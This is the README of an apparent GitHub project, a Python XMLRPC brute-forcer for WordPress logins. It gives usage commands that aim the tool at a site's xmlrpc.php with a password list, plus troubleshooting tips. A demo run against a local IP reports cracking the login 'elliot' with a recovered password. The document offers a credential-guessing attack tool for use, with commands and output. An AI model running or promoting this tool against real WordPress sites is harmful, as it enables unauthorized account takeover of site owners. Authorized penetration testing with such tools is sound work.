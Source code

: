 <p align="center"><img src="https://i.imgur.com/K4aUmMo.png"></p>

<h4 align="center">An XMLRPC BruteForcer for Wordpress  - Inpired by (1N3@CrowdShield)</h4>

<p align="center">
  <a href="https://twitter.com/kavishgour"><b>Twitter</b></a>
  <span> - </span>
  <a href="https://t.me/kavishgr"><b>Telegram</b></a>
  <span> - </span>
  <a href="https://kavishgr.github.io"><b>Blog</b></a>
</p>


## Usage

```bash
python3 xmlrcpbruteforce.py http://wordpress.org/xmlrpc.php passwords.txt username
python3 xmlrpcbruteforce.py http://wordpress.org/xmlrpc.php passwords.txt userlist.txt ( >>in progess<<)
```
## Bugs

If you get an ```xml.etree.ElementTree.ParseError```:

* Did you forget to add 'xmlrpc' in the url ?
* Try to add or remove 'https' or 'www'.

I'm working on the Exception Handling and 'userlist' enumeration.

## Demo

```bash
MacBook-Pro:xmlrpc-bruteforcer kavish$ python3 xmlrpcbruteforce.py http://192.168.100.34/xmlrpc.php 10k-most-common.txt elliot

---------------Examining Target--------------------

[>] Target is vulnerable.

--=[Target: http://192.168.100.34/xmlrpc.php]=--

        	[...Bruteforcing...]
--=[Tried: 1000 passwords]=--
--=[Tried: 2000 passwords]=--
--=[Tried: 3000 passwords]=--
--------------- BRUTEFORCE SUCCESSFULL  ---------------
--=[User found]=--
Login: elliot
Password: ER28-0652
--=[Exiting...]=--
```

